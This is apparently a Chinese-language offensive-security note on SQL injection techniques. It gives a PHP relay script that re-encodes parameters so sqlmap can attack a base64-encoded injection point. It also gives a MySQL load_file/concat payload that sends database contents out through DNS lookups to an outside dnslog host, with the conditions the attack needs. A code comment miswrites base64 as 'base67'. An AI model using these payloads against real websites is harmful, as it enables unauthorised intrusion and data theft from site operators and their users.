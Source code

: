 # 中转注入

本质上比较低能，是个偷懒技巧。如果某个网站的URL注入点是经过编码的，不能直接结合sqlmap进行漏洞利用，可以本地搭建一个网站，写一个php脚本编码文件，然后就可以sqlmap一把梭了。

比如某个网站的url为

```
url/show.php?id=MQo=
```

你可以在本地搭个网站，源码为：

```
<?php 
$id = base64_encode($_GET['id']);
echo file_get_contents("url/show.php?id=$id");


//base64_encode base67编码
//file_get_contents 网络请求
?>
```

这样的话访问本地网站http://127.0.0.1/?id=1就等于访问url/show.php?id=MQo=，这样对着本地网站就能sqlmap一把梭了，当然你也可以直接自己写个tamper脚本进行攻击

# Dnslog外带注入

对网站用sqlmap跑盲注的话有可能会把ip封掉，这时我们可以考虑把数据外带到dnslog上通过日志读回显，这样也算变相代理池了，不过这种方法需要使用Load_file函数，这个函数的作用是读取文件并返回文件内容为字符串，访问互联网中的文件时，需要在最前面加上两个斜杠 //，有几个利用的条件：

- 首先要有注入点
- 需要有root权限
- 数据库有读写权限即：secure_file_priv=“”
- 得有请求url权限
- 还必须得是windows服务器

比如我们可以使用语句：

```
select load_file(concat('//',(select database()),'.je5i3a.dnslog.cn/1.txt'));
```

`concat`函数，将执行的sql语句,与DNS请求的url进行拼接，最后偷个别人的图看看结果：

![img](assets/1-26-1024x274.png)
